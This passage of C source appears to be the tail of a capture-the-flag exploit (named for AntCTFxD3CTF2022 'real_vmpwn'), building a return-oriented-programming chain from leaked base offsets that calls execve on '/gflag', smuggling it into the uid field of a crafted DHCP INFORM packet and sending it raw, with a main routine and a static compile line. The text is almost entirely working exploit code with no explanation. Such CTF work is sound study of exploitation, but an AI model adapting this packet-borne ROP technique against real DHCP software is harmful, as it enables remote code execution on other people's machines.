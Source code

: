 ```c
    // getchar();

    // write rop
    uint64_t prdi = elf_base + 0x0000000000019d21,
             prsi = elf_base + 0x000000000001b954,
             prdx = elf_base + 0x00000000000bc28e;
    uint64_t execve_plt = elf_base + 0x0000000000019308;
    char *cmd = "/gflag";
    uint64_t rop[0x48/8] = {
        prdi, ret_addr + 0x38,
        prsi, 0,
        prdx, 0,
        execve_plt,
        0, 0
    };
    memcpy(&rop[7], cmd, strlen(cmd));

    memset(tmp_req.uid, 0, sizeof(tmp_req.uid));
    tmp_req.uid_type = *(uint8_t *)rop;
    memcpy(tmp_req.uid, (uint8_t *)rop + 1, 0x47);
    sleep(3);
    xid = random();
    memset(buf, 0, 0x1000);
    create_dhcp_inform_packet(buf, &buf_len, tmp_req);
    send_raw_pkt(buf, buf_len);

    free(buf);
}

int main(int argc, char *argv[]) {
    if (argc != 2)
    {
        printf("Usage: sudo %s <iface>\n", argv[0]);
        return 0;
    }
    init(argv[1]);

    leak();
    exploit();

    close(sock);
    return 0;
}
// gcc -static -o exp ./AntCTFxD3CTF2022-real_vmpwn.exp.c
```